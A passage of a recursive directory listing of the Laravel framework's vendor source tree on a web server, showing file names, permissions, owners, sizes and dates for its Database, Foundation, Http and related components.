-rwxr-xr-x  1 www-data www-data 1.2K Apr  3  2017 ModelNotFoundException.php
-rw-r--r--  1 www-data www-data  677 Apr  3  2017 QueueEntityResolver.php
-rwxr-xr-x  1 www-data www-data  475 Apr  3  2017 RelationNotFoundException.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Relations
-rw-r--r--  1 www-data www-data  350 Apr  3  2017 Scope.php
-rw-r--r--  1 www-data www-data 3.7K Apr  3  2017 SoftDeletes.php
-rw-r--r--  1 www-data www-data 3.5K Apr  3  2017 SoftDeletingScope.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Eloquent/Concerns:
total 100K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 4.1K Apr  3  2017 GuardsAttributes.php
-rw-r--r-- 1 www-data www-data  31K Apr  3  2017 HasAttributes.php
-rw-r--r-- 1 www-data www-data 7.8K Apr  3  2017 HasEvents.php
-rw-r--r-- 1 www-data www-data 2.1K Apr  3  2017 HasGlobalScopes.php
-rw-r--r-- 1 www-data www-data  18K Apr  3  2017 HasRelationships.php
-rw-r--r-- 1 www-data www-data 2.3K Apr  3  2017 HasTimestamps.php
-rw-r--r-- 1 www-data www-data 2.6K Apr  3  2017 HidesAttributes.php
-rw-r--r-- 1 www-data www-data  11K Apr  3  2017 QueriesRelationships.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Eloquent/Relations:
total 144K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data 9.7K Apr  3  2017 BelongsTo.php
-rwxr-xr-x 1 www-data www-data  26K Apr  3  2017 BelongsToMany.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 Concerns
-rwxr-xr-x 1 www-data www-data 1.1K Apr  3  2017 HasMany.php
-rw-r--r-- 1 www-data www-data  13K Apr  3  2017 HasManyThrough.php
-rwxr-xr-x 1 www-data www-data 2.4K Apr  3  2017 HasOne.php
-rwxr-xr-x 1 www-data www-data  12K Apr  3  2017 HasOneOrMany.php
-rwxr-xr-x 1 www-data www-data 1.1K Apr  3  2017 MorphMany.php
-rwxr-xr-x 1 www-data www-data 1.1K Apr  3  2017 MorphOne.php
-rwxr-xr-x 1 www-data www-data 6.4K Apr  3  2017 MorphOneOrMany.php
-rw-r--r-- 1 www-data www-data 1.7K Apr  3  2017 MorphPivot.php
-rw-r--r-- 1 www-data www-data 7.0K Apr  3  2017 MorphTo.php
-rw-r--r-- 1 www-data www-data 4.3K Apr  3  2017 MorphToMany.php
-rwxr-xr-x 1 www-data www-data 4.8K Apr  3  2017 Pivot.php
-rwxr-xr-x 1 www-data www-data 8.7K Apr  3  2017 Relation.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Eloquent/Relations/Concerns:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  16K Apr  3  2017 InteractsWithPivotTable.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Events:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  613 Apr  3  2017 ConnectionEvent.php
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 QueryExecuted.php
-rw-r--r--  1 www-data www-data  635 Apr  3  2017 StatementPrepared.php
-rw-r--r--  1 www-data www-data  108 Apr  3  2017 TransactionBeginning.php
-rw-r--r--  1 www-data www-data  108 Apr  3  2017 TransactionCommitted.php
-rw-r--r--  1 www-data www-data  109 Apr  3  2017 TransactionRolledBack.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Migrations:
total 52K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 4.4K Apr  3  2017 DatabaseMigrationRepository.php
-rwxr-xr-x  1 www-data www-data  369 Apr  3  2017 Migration.php
-rwxr-xr-x  1 www-data www-data 5.1K Apr  3  2017 MigrationCreator.php
-rwxr-xr-x  1 www-data www-data 1.4K Apr  3  2017 MigrationRepositoryInterface.php
-rwxr-xr-x  1 www-data www-data  16K Apr  3  2017 Migrator.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Migrations/stubs:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data  417 Apr  3  2017 blank.stub
-rwxr-xr-x 1 www-data www-data  590 Apr  3  2017 create.stub
-rwxr-xr-x 1 www-data www-data  581 Apr  3  2017 update.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Query:
total 96K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data  68K Apr  3  2017 Builder.php
-rwxr-xr-x  1 www-data www-data  694 Apr  3  2017 Expression.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Grammars
-rwxr-xr-x  1 www-data www-data 2.4K Apr  3  2017 JoinClause.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 JsonExpression.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Processors

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Query/Grammars:
total 76K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data  24K Apr  3  2017 Grammar.php
-rwxr-xr-x 1 www-data www-data 8.7K Apr  3  2017 MySqlGrammar.php
-rwxr-xr-x 1 www-data www-data 8.4K Apr  3  2017 PostgresGrammar.php
-rwxr-xr-x 1 www-data www-data 5.1K Apr  3  2017 SQLiteGrammar.php
-rwxr-xr-x 1 www-data www-data  12K Apr  3  2017 SqlServerGrammar.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Query/Processors:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  415 Apr  3  2017 MySqlProcessor.php
-rwxr-xr-x 1 www-data www-data 1.1K Apr  3  2017 PostgresProcessor.php
-rwxr-xr-x 1 www-data www-data 1.2K Apr  3  2017 Processor.php
-rw-r--r-- 1 www-data www-data  409 Apr  3  2017 SQLiteProcessor.php
-rwxr-xr-x 1 www-data www-data 1.8K Apr  3  2017 SqlServerProcessor.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Schema:
total 56K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data  28K Apr  3  2017 Blueprint.php
-rwxr-xr-x  1 www-data www-data 6.7K Apr  3  2017 Builder.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Grammars
-rwxr-xr-x  1 www-data www-data  960 Apr  3  2017 MySqlBuilder.php
-rwxr-xr-x  1 www-data www-data  619 Apr  3  2017 PostgresBuilder.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Schema/Grammars:
total 108K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 6.3K Apr  3  2017 ChangeColumn.php
-rwxr-xr-x 1 www-data www-data 7.7K Apr  3  2017 Grammar.php
-rwxr-xr-x 1 www-data www-data  23K Apr  3  2017 MySqlGrammar.php
-rwxr-xr-x 1 www-data www-data  17K Apr  3  2017 PostgresGrammar.php
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 RenameColumn.php
-rwxr-xr-x 1 www-data www-data  17K Apr  3  2017 SQLiteGrammar.php
-rwxr-xr-x 1 www-data www-data  16K Apr  3  2017 SqlServerGrammar.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Encryption:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 6.4K Apr  3  2017 Encrypter.php
-rwxr-xr-x  1 www-data www-data  899 Apr  3  2017 EncryptionServiceProvider.php
-rw-r--r--  1 www-data www-data  937 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Events:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 2.1K Apr  3  2017 CallQueuedHandler.php
-rw-r--r--  1 www-data www-data 2.9K Apr  3  2017 CallQueuedListener.php
-rwxr-xr-x  1 www-data www-data  15K Apr  3  2017 Dispatcher.php
-rwxr-xr-x  1 www-data www-data  556 Apr  3  2017 EventServiceProvider.php
-rwxr-xr-x  1 www-data www-data  861 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Filesystem:
total 60K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  14K Apr  3  2017 Filesystem.php
-rw-r--r--  1 www-data www-data  13K Apr  3  2017 FilesystemAdapter.php
-rw-r--r--  1 www-data www-data 8.7K Apr  3  2017 FilesystemManager.php
-rw-r--r--  1 www-data www-data 1.8K Apr  3  2017 FilesystemServiceProvider.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation:
total 140K
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 5.1K Apr  3  2017 AliasLoader.php
-rwxr-xr-x  1 www-data www-data  31K Apr  3  2017 Application.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Auth
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Bootstrap
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Bus
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 ComposerScripts.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Console
-rw-r--r--  1 www-data www-data 1.9K Apr  3  2017 EnvironmentDetector.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Exceptions
drwxr-xr-x  5 www-data www-data 4.0K Apr  3  2017 Http
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 Inspiring.php
-rwxr-xr-x  1 www-data www-data 6.3K Apr  3  2017 ProviderRepository.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Providers
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Support
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Testing
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Validation
-rw-r--r--  1 www-data www-data  23K Apr  3  2017 helpers.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Auth:
total 48K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Access
-rw-r--r--  1 www-data www-data 4.5K Apr  3  2017 AuthenticatesUsers.php
-rw-r--r--  1 www-data www-data  399 Apr  3  2017 RedirectsUsers.php
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 RegistersUsers.php
-rw-r--r--  1 www-data www-data 4.3K Apr  3  2017 ResetsPasswords.php
-rw-r--r--  1 www-data www-data 2.1K Apr  3  2017 SendsPasswordResetEmails.php
-rw-r--r--  1 www-data www-data 2.6K Apr  3  2017 ThrottlesLogins.php
-rw-r--r--  1 www-data www-data  630 Apr  3  2017 User.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Auth/Access:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1012 Apr  3  2017 Authorizable.php
-rw-r--r-- 1 www-data www-data 3.3K Apr  3  2017 AuthorizesRequests.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Bootstrap:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  356 Apr  3  2017 BootProviders.php
-rw-r--r--  1 www-data www-data 4.0K Apr  3  2017 HandleExceptions.php
-rw-r--r--  1 www-data www-data 3.6K Apr  3  2017 LoadConfiguration.php
-rw-r--r--  1 www-data www-data 1.8K Apr  3  2017 LoadEnvironmentVariables.php
-rw-r--r--  1 www-data www-data  594 Apr  3  2017 RegisterFacades.php
-rw-r--r--  1 www-data www-data  383 Apr  3  2017 RegisterProviders.php
-rw-r--r--  1 www-data www-data  531 Apr  3  2017 SetRequestForConsole.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Bus:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  317 Apr  3  2017 Dispatchable.php
-rw-r--r--  1 www-data www-data  595 Apr  3  2017 DispatchesJobs.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 PendingDispatch.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Console:
total 156K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 6.7K Apr  3  2017 AppNameCommand.php
-rw-r--r--  1 www-data www-data  733 Apr  3  2017 ClearCompiledCommand.php
-rw-r--r--  1 www-data www-data 1.7K Apr  3  2017 ClosureCommand.php
-rw-r--r--  1 www-data www-data 1.7K Apr  3  2017 ConfigCacheCommand.php
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 ConfigClearCommand.php
-rw-r--r--  1 www-data www-data 1.9K Apr  3  2017 ConsoleMakeCommand.php
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 DownCommand.php
-rw-r--r--  1 www-data www-data  622 Apr  3  2017 EnvironmentCommand.php
-rw-r--r--  1 www-data www-data 1.8K Apr  3  2017 EventGenerateCommand.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 EventMakeCommand.php
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 JobMakeCommand.php
-rw-r--r--  1 www-data www-data 8.3K Apr  3  2017 Kernel.php
-rw-r--r--  1 www-data www-data 2.8K Apr  3  2017 KeyGenerateCommand.php
-rw-r--r--  1 www-data www-data 2.6K Apr  3  2017 ListenerMakeCommand.php
-rw-r--r--  1 www-data www-data 2.5K Apr  3  2017 MailMakeCommand.php
-rw-r--r--  1 www-data www-data 2.7K Apr  3  2017 ModelMakeCommand.php
-rw-r--r--  1 www-data www-data 2.6K Apr  3  2017 NotificationMakeCommand.php
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 OptimizeCommand.php
-rw-r--r--  1 www-data www-data 2.5K Apr  3  2017 PolicyMakeCommand.php
-rw-r--r--  1 www-data www-data  959 Apr  3  2017 ProviderMakeCommand.php
-rw-r--r--  1 www-data www-data  749 Apr  3  2017 QueuedCommand.php
-rw-r--r--  1 www-data www-data  955 Apr  3  2017 RequestMakeCommand.php
-rw-r--r--  1 www-data www-data 2.7K Apr  3  2017 RouteCacheCommand.php
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 RouteClearCommand.php
-rw-r--r--  1 www-data www-data 4.7K Apr  3  2017 RouteListCommand.php
-rw-r--r--  1 www-data www-data 2.0K Apr  3  2017 ServeCommand.php
-rw-r--r--  1 www-data www-data  890 Apr  3  2017 StorageLinkCommand.php
-rw-r--r--  1 www-data www-data 1.7K Apr  3  2017 TestMakeCommand.php
-rw-r--r--  1 www-data www-data  617 Apr  3  2017 UpCommand.php
-rw-r--r--  1 www-data www-data 4.8K Apr  3  2017 VendorPublishCommand.php
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 ViewClearCommand.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Console/stubs:
total 92K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  671 Apr  3  2017 console.stub
-rw-r--r-- 1 www-data www-data  518 Apr  3  2017 event-handler-queued.stub
-rw-r--r-- 1 www-data www-data  466 Apr  3  2017 event-handler.stub
-rw-r--r-- 1 www-data www-data  777 Apr  3  2017 event.stub
-rw-r--r-- 1 www-data www-data  603 Apr  3  2017 job-queued.stub
-rw-r--r-- 1 www-data www-data  418 Apr  3  2017 job.stub
-rw-r--r-- 1 www-data www-data  519 Apr  3  2017 listener-queued.stub
-rw-r--r-- 1 www-data www-data  467 Apr  3  2017 listener.stub
-rw-r--r-- 1 www-data www-data  544 Apr  3  2017 mail.stub
-rw-r--r-- 1 www-data www-data  548 Apr  3  2017 markdown-mail.stub
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 markdown-notification.stub
-rw-r--r-- 1 www-data www-data  191 Apr  3  2017 markdown.stub
-rw-r--r-- 1 www-data www-data  117 Apr  3  2017 model.stub
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 notification.stub
-rw-r--r-- 1 www-data www-data  301 Apr  3  2017 policy.plain.stub
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 policy.stub
-rw-r--r-- 1 www-data www-data  396 Apr  3  2017 provider.stub
-rw-r--r-- 1 www-data www-data  481 Apr  3  2017 request.stub
-rw-r--r-- 1 www-data www-data  477 Apr  3  2017 routes.stub
-rw-r--r-- 1 www-data www-data  407 Apr  3  2017 test.stub
-rw-r--r-- 1 www-data www-data  354 Apr  3  2017 unit-test.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Events:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  513 Apr  3  2017 Dispatchable.php
-rw-r--r--  1 www-data www-data  354 Apr  3  2017 LocaleUpdated.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Exceptions:
total 20K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 7.4K Apr  3  2017 Handler.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 views

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Exceptions/views:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 503.blade.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http:
total 40K
drwxr-xr-x  5 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Exceptions
-rw-r--r--  1 www-data www-data 6.0K Apr  3  2017 FormRequest.php
-rw-r--r--  1 www-data www-data 8.6K Apr  3  2017 Kernel.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Middleware

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Events:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  621 Apr  3  2017 RequestHandled.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Exceptions:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 MaintenanceModeException.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Middleware:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 CheckForMaintenanceMode.php
-rw-r--r-- 1 www-data www-data  380 Apr  3  2017 ConvertEmptyStringsToNull.php
-rw-r--r-- 1 www-data www-data 2.1K Apr  3  2017 TransformsRequest.php
-rw-r--r-- 1 www-data www-data  582 Apr  3  2017 TrimStrings.php
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 ValidatePostSize.php
-rw-r--r-- 1 www-data www-data 4.2K Apr  3  2017 VerifyCsrfToken.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Providers:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data  23K Apr  3  2017 ArtisanServiceProvider.php
-rwxr-xr-x  1 www-data www-data  739 Apr  3  2017 ComposerServiceProvider.php
-rw-r--r--  1 www-data www-data  581 Apr  3  2017 ConsoleSupportServiceProvider.php
-rw-r--r--  1 www-data www-data 1.9K Apr  3  2017 FormRequestServiceProvider.php
-rw-r--r--  1 www-data www-data  323 Apr  3  2017 FoundationServiceProvider.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Support:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Providers

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Support/Providers:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  645 Apr  3  2017 AuthServiceProvider.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 EventServiceProvider.php
-rw-r--r-- 1 www-data www-data 2.2K Apr  3  2017 RouteServiceProvider.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Testing:
total 60K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Concerns
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Constraints
-rw-r--r--  1 www-data www-data  497 Apr  3  2017 DatabaseMigrations.php
-rw-r--r--  1 www-data www-data  945 Apr  3  2017 DatabaseTransactions.php
-rw-r--r--  1 www-data www-data  184 Apr  3  2017 HttpException.php
-rwxr-xr-x  1 www-data www-data 4.1K Apr  3  2017 TestCase.php
-rw-r--r--  1 www-data www-data  14K Apr  3  2017 TestResponse.php
-rw-r--r--  1 www-data www-data  460 Apr  3  2017 WithoutEvents.php
-rw-r--r--  1 www-data www-data  500 Apr  3  2017 WithoutMiddleware.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Testing/Concerns:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.7K Apr  3  2017 InteractsWithAuthentication.php
-rw-r--r-- 1 www-data www-data  423 Apr  3  2017 InteractsWithConsole.php
-rw-r--r-- 1 www-data www-data  693 Apr  3  2017 InteractsWithContainer.php
-rw-r--r-- 1 www-data www-data 2.3K Apr  3  2017 InteractsWithDatabase.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 InteractsWithSession.php
-rw-r--r-- 1 www-data www-data 8.8K Apr  3  2017 MakesHttpRequests.php
-rw-r--r-- 1 www-data www-data 7.8K Apr  3  2017 MocksApplicationServices.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Testing/Constraints:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 HasInDatabase.php
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 SoftDeletedInDatabase.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Validation:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 4.7K Apr  3  2017 ValidatesRequests.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/stubs:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  325 Apr  3  2017 facade.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Hashing:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 2.1K Apr  3  2017 BcryptHasher.php
-rwxr-xr-x  1 www-data www-data  648 Apr  3  2017 HashServiceProvider.php
-rwxr-xr-x  1 www-data www-data  823 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Http:
total 76K
drwxr-xr-x  6 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Concerns
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Exceptions
-rw-r--r--  1 www-data www-data  155 Apr  3  2017 File.php
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 FileHelpers.php
-rwxr-xr-x  1 www-data www-data 2.1K Apr  3  2017 JsonResponse.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Middleware
-rwxr-xr-x  1 www-data www-data 5.3K Apr  3  2017 RedirectResponse.php
-rw-r--r--  1 www-data www-data  13K Apr  3  2017 Request.php
-rwxr-xr-x  1 www-data www-data 2.0K Apr  3  2017 Response.php
-rw-r--r--  1 www-data www-data 2.7K Apr  3  2017 ResponseTrait.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Testing
-rw-r--r--  1 www-data www-data 3.1K Apr  3  2017 UploadedFile.php
-rwxr-xr-x  1 www-data www-data  894 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Http/Concerns:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.7K Apr  3  2017 InteractsWithContentTypes.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 InteractsWithFlashData.php
-rw-r--r-- 1 www-data www-data 7.2K Apr  3  2017 InteractsWithInput.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Http/Exceptions:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  790 Apr  3  2017 HttpResponseException.php
-rw-r--r-- 1 www-data www-data  119 Apr  3  2017 PostTooLargeException.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Http/Middleware:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  539 Apr  3  2017 CheckResponseForModifications.php
-rw-r--r-- 1 www-data www-data  499 Apr  3  2017 FrameGuard.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Http/Testing:
total 52K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.3K Apr  3  2017 File.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 FileFactory.php
-rw-r--r-- 1 www-data www-data  36K Apr  3  2017 MimeType.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Log:
total 32K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
